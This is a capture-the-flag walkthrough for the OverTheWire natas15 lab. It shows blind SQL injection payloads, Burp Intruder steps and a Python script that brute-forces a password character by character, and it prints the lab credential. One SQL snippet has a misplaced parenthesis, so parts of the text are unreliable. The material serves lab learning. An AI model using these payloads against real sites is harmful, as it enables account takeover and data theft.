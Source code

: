 If the first letter of the password is 'a', we will get back a 'positive' result, i.e. a response containing the Text "This entry exists". If not, we will get back a different result. So we need a way to test all alphanumerical characters in the query above. We can obviously do this manually, but considering the password has 32 letters, this would be madness. Instead, we have two options: using burpsuite or a custom script.


### Blind SQL injection with burpsuite {#blind-sql-injection-with-burpsuite}

As before, open burpsuite, open the included browser, go to the natas15 page and set intercept to "on". Then insert the SQL query snippet ~" OR substring(password,1,1) = "a" -- ~ (do not forget the space at the end or your query will not work) and click the button.

{{< figure src="/ox-hugo/clipboard-20250321T110819.png" >}}

Then move to burpsuite Proxy and forward the intercepted request to the Intruder. Here, set the "debug" bit and then mark the payload you want to manipulate - in our case the a in the query and click `Add §`. This opens the payloads window, select `Brute Forcer` and reduce the min/max length to 1 (we want only 1 character at this point, bc. the free version of burpsuite is throttled, anything else would take forever).

{{< figure src="/ox-hugo/clipboard-20250321T120612.png" >}}

This opens a window where we see the results of our attack. We can see that for every letter we get one response back. If you look at the "length column", you can see that one response seems to be of different length than the others implying that this might be our candidate. And indeed - if we click this and look at the resposne we can see that we are told "This user exists". This means "h" is most likely the first letter of our password.

{{< figure src="/ox-hugo/clipboard-20250321T120549.png" >}}

We can then move on to the next letter by using this query, which gives us the letter "p":

```sql
" OR substring(password,1,2) = "ha" --
```

This would work, but is also quite unwieldy, especially with longer passwords and a throttled burpsuite version. Instead of using burpsuite, we can also use a python script to do this task.


### Blind SQL injection with python {#blind-sql-injection-with-python}

We can make our SQL injection a bit more precise: We already know that the user is natas16, so we can input this user and look for its password in order to avoid mistakes:

```sql
natas16" AND BINARY substring(password,1,1="a" --
```

This gives us the following script:

```python
import requests
import string

url = "http://natas15.natas.labs.overthewire.org/index.php"
auth = ("natas15", "SdqIqBsFcz3yotlNYErZSZwblkm0lrvx")
charset = string.ascii_lowercase + string.ascii_uppercase + string.digits
found_password = ""
while True:
    found_char = None
    for char in charset:
        payload = f'natas16" AND BINARY substring(password,1,{len(found_password)+1})="{found_password + char}" -- '
        response = requests.post(url, auth=auth, data={"username": payload})
        if "This user exists" in response.text:
            found_password += char
            print(f"[+] Found password so far: {found_password}")
```